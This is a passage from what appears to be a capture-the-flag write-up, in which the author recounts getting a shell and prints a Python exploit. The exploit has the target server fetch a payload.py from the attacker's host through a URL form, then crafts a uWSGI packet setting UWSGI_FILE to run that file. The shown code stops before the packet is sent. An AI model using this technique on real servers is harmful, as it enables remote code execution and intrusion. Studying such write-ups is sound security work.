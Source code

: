 After 3 or 4 hours, I talked to my teammate and he told me the server could connect to his laptop. I was really shocked and got shell immediately. (217 got first blood during I was stuck!!!)

Here is final exploit:
```python
import requests
import sys
import struct


url = "http://100.100.0.5:8080"
# url = "http://100.100.14.206:8080"
# url = "http://localhost:8000"

p16 = lambda i:struct.pack('<H', i)
p8 = lambda i:struct.pack('<B', i)
u16 = lambda s:struct.unpack('<H', s)[0]

def pack_uwsgi_vars(var):
    pk = b''
    for k, v in var.items():
        pk += p16(len(k)) + k.encode('utf8') + p16(len(v)) + v.encode('utf8')
    result = b'\x00' + p16(len(pk)) + b'\x00' + pk
    return result


def gen_packet(var, body=''):
    return pack_uwsgi_vars(var) + body.encode('utf8')

def query(path):
    sess = requests.session()
    # path = "file://{}".format(path)
    csrf = sess.get(url).content.split(b'name="csrfmiddlewaretoken" value="')[1].split(b'"')[0]
    req = sess.post(url, data={'url': path, 'csrfmiddlewaretoken': csrf})

    try:
        data_path = req.content.split(b'<img src="')[1].split(b'"')[0].decode()
    except:
        return None
    return sess.get(url+data_path).content, data_path

import urllib

_, path = query('http://100.100.14.206:8081/payload.py')

var = {
    'QUERY_STRING': '',
    'REQUEST_METHOD': 'GET',
    'REQUEST_URI': '/',
    'PATH_INFO': '/',
    'SERVER_PROTOCOL': 'HTTP/1.1',
    'DOCUMENT_ROOT': '/',
    'SERVER_NAME': '',
    'HTTP_HOST': '100.100.0.5:8080',
    'UWSGI_FILE': '/usr/src/rwctf'+path,
    'SCRIPT_NAME': '/a=hoasho4qwfe'
}

# print(query(sys.argv[1])[0], end='')
# exit()

payload = gen_packet(var, '')
# import socket
# s = socket.socket()
```